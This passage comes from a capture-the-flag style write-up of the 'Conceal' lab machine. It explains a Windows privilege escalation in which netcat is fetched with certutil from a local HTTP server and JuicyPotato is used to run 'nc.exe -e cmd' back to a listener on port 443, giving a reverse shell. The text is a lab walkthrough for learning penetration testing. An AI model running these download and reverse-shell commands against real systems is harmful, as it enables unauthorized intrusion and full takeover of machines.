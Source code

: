 <br />
<img src="{{ site.img_path }}/conceal_writeup/Conceal_52.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/conceal_writeup/Conceal_53.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/conceal_writeup/Conceal_54.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/conceal_writeup/Conceal_55.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

To succeed in **Escalating privileges** I will use the `nc.exe` binary to send a **Reverse Shell** to my attacking machine. So I download the binary from the **[EternallyBored](https://eternallybored.org/misc/netcat/){:target="_blank"}** and transfer it to the **Conceal** machine, then I open again with `nc` the port **443** of my machine and finally I execute the command indicated with `JuicyPotato.exe` so `nc.exe` is in charge of sending the **Reverse Shell**. I finally succeeded in engaging the box and accessing the last flag.

> **Attacker Machine**:

```bash
mv /home/al3j0/Downloads/netcat-win32-1.12.zip .
unzip -d netcat netcat-win32-1.12.zip
mv ./netcat/nc64.exe ./nc.exe
python3 -m http.server 80
```

> **Victime Machine**:

```cmd
certutil -f -urlcache -split http://10.10.14.14/nc.exe
```

> **Attacker Machine**:

```bash
rlwrap -cAr nc -nlvp 443
```

> **Victime Machine**:

```cmd
.\JP.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\Temp\privesc\nc.exe -e cmd 10.10.14.14 443" -c "{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}"

whoami
# :)
hostname
```

<br />
<img src="{{ site.img_path }}/conceal_writeup/Conceal_56.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/conceal_writeup/Conceal_57.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/conceal_writeup/Conceal_58.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/conceal_writeup/Conceal_59.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
